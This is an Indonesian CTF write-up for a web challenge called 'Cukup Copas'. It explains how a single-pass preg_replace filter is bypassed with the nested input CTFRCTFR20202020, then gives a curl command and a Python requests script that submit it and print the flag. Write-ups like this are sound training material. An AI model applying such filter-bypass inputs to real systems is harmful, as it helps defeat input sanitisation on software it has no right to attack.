 <h1><b>Cukup Copas</b></h1>
<pre>
Maksud dari title diatas, Kalian cukup Copy Paste apa yang disuruh input. Setelah itu dapat Flag nya deh :D

Challenge --> <a href='https://web.ctf.rasyidmf.com/chal15/'>URL</a>
</pre>
<h3><b>Solution</b></h3>
<p>Buka halaman sourcode ?source=1 --> https://web.ctf.rasyidmf.com/chal15/?source=1</p>

```php
<?php
include 'flag.php';
    $data = @$_POST['data'];
    if ($data != "") {
        $res = preg_replace("/CTFR2020/", "", $data);
        if ($res == "CTFR2020") {
            echo "Here is your flag : " . $flag . "<br><br>";
        } else {
            echo "Inputannya harus sesuai dong<br><br>";
        }
    }
?>
```
<p align='justify'>Maka didapatkan source dari challenge, disana akan mencetak flag jika statment-statment tersebut bernilai TRUE. yang jelas inputan tidak boleh kosong
dan fungsi preg_replace() akan menghapus string yang berisikan <b>CTFR2020</b> karena setiap string yang diapiti tanda slash(/) akan direplace dengan null data.
Jadi disini bisa diakali dengan menginputkan CTFRCTFR20202020 yang nantinya jika dilewatkan fungsi preg_replace() akan menghapus CTFR2020 bagian tengah saja dan 
menyisakan CTFR2020 dibagian kiri dan kanan</p>

<pre>
CTFRCTFR20202020
</pre>

```console
root@Python:/home/venom# curl -d "data=CTFRCTFR20202020" -X POST https://web.ctf.rasyidmf.com/chal15/ | head -n 1
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   422    0   401  100    21   2587    135 --:--:-- --:--:-- --:--:--  2722
Here is your flag : CTFR{pr3g_r3pl4c3_3xpl01t_1s_aw3s0m3}<br><br><!DOCTYPE html>
root@Python:/home/venom# 
```

```python
import requests

data = {'data':'CTFRCTFR20202020'}
res = requests.post('https://web.ctf.rasyidmf.com/chal15/',data=data).text
print(res.split(' ')[5].replace('<br><br><!DOCTYPE','')) #CTFR{pr3g_r3pl4c3_3xpl01t_1s_aw3s0m3}
```
<h3><b>Flag</b></h3>
<pre>
CTFR{pr3g_r3pl4c3_3xpl01t_1s_aw3s0m3}
</pre>

